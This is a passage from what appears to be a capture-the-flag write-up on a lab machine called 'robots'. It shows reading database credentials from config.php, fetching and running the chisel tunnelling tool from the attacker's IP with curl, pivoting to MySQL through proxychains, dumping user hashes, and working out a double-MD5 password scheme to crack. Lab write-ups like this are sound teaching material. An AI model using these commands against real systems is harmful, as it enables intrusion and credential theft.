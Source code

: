 ## Database dumping

I firstly searched for the config files and the database credentials.

```terminal
www-data@robots:/var/www/html/harm/to/self$ cat config.php
cat config.php
<?php
    $servername = "db";
    $username = "robots";
    $password = "THISISFAKE";
    $dbname = "web";
// Get the current hostname
```

I next uploaded [chisel](https://github.com/jpillora/chisel/releases/tag/v1.10.1) to connect to the database server. The HTTP server from the reverse shell is useful for that.

```terminal
curl -o chisel http://10.14.78.229/chisel && chmod +x chisel
```

On my machine I started chisel:
```terminal
./chisel server -p 8082 --reverse 
```

And on the remote I connected via, keep in mind that the shell is likely unusable after that:

```terminal
./chisel client 10.14.78.229:8082 R:socks
```

> **Note:** Before using proxychains you need to configure the proxy as `socks5 127.0.0.1 1080` edit the bottom of `/etc/proxychains4.conf`
{: .prompt-info }

Now you can connect with the default mysql client, use the password from teh already found config file.

```terminal
proxychains mysql -h db -u robots -p
```

In the web database you now can find the users in the database. You may notice the user `rgiskard`.
```sql
use web;
select * from users;
```

```
|  2 | rgiskard | THESECRETHASHTHESECRETHASHTHESECRETHASH | nologin |
```

The hash in the database looks promising. From the register page before you know that the password is the `username+ddmm` and if you compare the hashes from our created user and the hash of that user in the database or simply look at the implementation you notice that these hashes are double hashed (Format of the hashes: `md5(md5(username+ddmm))`). So to find the password of the user rgiskard you need to double hash the username + any date until the hash matches. I made a short python program for that:
